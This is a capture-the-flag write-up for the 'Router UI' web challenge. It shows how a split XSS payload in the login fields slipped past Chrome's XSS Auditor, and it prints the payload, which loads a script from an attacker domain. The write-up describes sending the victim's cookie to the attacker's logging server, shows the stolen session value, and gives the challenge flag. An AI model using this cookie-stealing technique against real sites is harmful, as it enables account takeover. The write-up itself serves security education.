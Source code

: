 # Router UI

> https://ctftime.org/writeup/10310

It was really easy to find out that we can inject XSS payload in username and password, however it was much harder to bypass XSS Auditor.
I tried a lot of payloads (either my own or copied from the Internet), but it didn't work.
There was only one strange thing about this website. Our username and password were separated by two slashes.
It looks as if it was part of url scheme. If type first half of our payload as nickname and the second part as the password hopefully it will work.
```
login:<script src=https:
password:[YOURDOMAIN]/exploit.js></script>
```
The above payload finally executed JS in chrome (I tried also with SVG and other tags, but I had some problems with them).
`exploit.js` simply redirects the browser to our website and passes document.cookie as query string.
`log.php` function saves all request uris to file.
We can only login via POST, so we need to create the website which will automaticly submit the form [website.html](website.html).
We have to send link to this website via email to wintermuted. He'll almost immediately visit it and we'll get his cookie.
Please note that you'll need HTTPS server for this challenge (you can use let's encrypt certificate). I tried with plain HTTP, but browser refused to execute it.
When we open log.txt on our server (hopefully) we'll see:
```
/log.php?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja
```
Set this cookie in your browser and visit https://router-ui.web.ctfcompetition.com/.
In the source you can find the flag.

Flag: `CTF{Kao4pheitot7Ahmu}`